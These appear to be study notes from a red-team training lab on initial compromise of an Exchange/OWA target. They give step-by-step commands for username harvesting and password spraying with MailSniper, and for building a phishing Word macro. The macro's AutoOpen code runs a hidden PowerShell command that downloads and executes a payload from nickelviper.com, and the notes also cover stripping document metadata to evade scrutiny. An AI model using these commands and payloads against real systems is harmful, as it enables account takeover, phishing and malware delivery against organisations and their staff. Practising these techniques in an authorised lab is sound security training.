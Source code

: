# Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Download [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1)
  3. In an Admin PS, run ```Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine```
  4. In a standard PS, import MailSniper: ```ipmo .\MailSniper.ps1```
  5. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  6. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
    5. ```cd /mnt/c/Users/Attacker/Desktop/```
    6. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
    8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```python ./namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList valid.txt -Password Summer2022```


## Internal Phishing
With the credentials of a legit internal user, many doors open, e.g.:
* Emails that may contain sensitive information such as documents, usernames, and passwords
* Send internal emails on behalf of the user, containing specially crafted files/links, or even download a document already in an inbox, backdoor it (e.g. with a macro) and send it back to somebody

## Initial Access Payloads
Two options for delivering a payload that will execute on their system:

1. Send a URL from which a payload can download
2. Attach a payload to the phishing email

## Initial Access Payloads

Files emailed "internally" from a compromised Exchange mailbox are not tagged with a Zone Identifier, and won't have the "mark of the web" (MotW) and come under greater scrutiny.

Check to see whether a file has the MotW: ```gc .\test.txt -Stream Zone.Identifier```. The zones ```gc``` reports are: 

  0: Local computer
  1: Local intranet
  2: Trusted sites
  3: Internet
  4: Restricted sites

## Visual Basic for Applications (VBA) Macros

Docs containing macros are handled with more scrutiny. Create a macro in a Word document by:

1. In CS: Attacks > Scripted Web Delivery (S)
2. Make a 64-bit PowerShell payload for your HTTP listener
  3. URI: anything
  4. Local host: nickelviper.com
  5. Local port: 80
  6. Listener: http
  7. Type: powershell
  8. Use x64 payload
9. This creates a payload hosted on the team server so it can be downloaded over HTTP and executed in-memory; paste into a Word macro (below): ```Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""```
1. In Word: View > Macros > Create
2. Change the "Macros in" field to the document name
3. Basic macro:
    ```
    Sub AutoOpen()
    
      Dim Shell As Object
      Set Shell = CreateObject("wscript.shell")
      Shell.Run "<command>"
    
    End Sub
    ```
4. If the Office license doesn't allow macros, run a Command Prompt as admin:
    ```
    cd C:\Program Files\Microsoft Office\Office16
    cscript ospp.vbs /rearm
    ```
5. In Word: File > Info > Inspect Document > Inspect Document, click Inspect then Remove All next to Document Properties and Personal Information
6. File > Save As and save to C:\Payloads. Any filename, and Save as type: Word 97-2003 (.doc) (.docm usually gets flagged/blocked)
7. Host the file: in CS: Site Management > Host File
  1. File: <payload .doc file>
  2. Local URI: /<file>
  3. Local host: nickelviper.com // an appropriate looking URL you control or a hosting service like OneDrive would be more legit
  4. Local port: 80
  5. Mime type: automatic
8. Open an HTML email template for Office 365 in a browser from https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365
9. Copy the content and paste into the OWA text editor
10. Change text/URL as appropriate, e.g. http://nickelviper.com/file.doc
  
  
  

     

